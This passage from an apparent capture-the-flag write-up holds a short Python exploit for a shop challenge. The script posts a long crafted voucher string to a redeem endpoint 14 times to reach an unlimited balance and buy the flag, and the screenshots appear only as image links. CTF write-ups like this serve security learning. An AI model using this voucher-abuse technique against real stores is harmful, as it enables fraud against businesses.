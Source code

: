 ![metactfv5-chamb-01](/assets/images/metactf-writeups/metactfv5-chamb-01.png)

Using this output I made the following exploit to get an infinite balance to buy the flag 👌+🏴= 🙂

```python
#!/usr/bin/python3
import requests

url = "http://f52668c3-8361-4727-8634-ad0a85fec4ac.cscpsut.com/"
buy_flag = url + "/buy_product?product=Flag"
redeem_url = url + "/redeem_voucher"


res = requests.get(url)

session = res.cookies["session"]
voucher = "zoz-000-" + "0" * 3456 + "a"


for i in range(14):
    req = requests.post(
        redeem_url, cookies={"session": session}, data={"voucher": voucher}
    )
    print(f"Attempt {i + 1}", end="\r")
print()
req = requests.get(buy_flag, cookies={"session": session})
print(req.text)

```

![metactfv5-chamb-02](/assets/images/metactf-writeups/metactfv5-chamb-02.png)
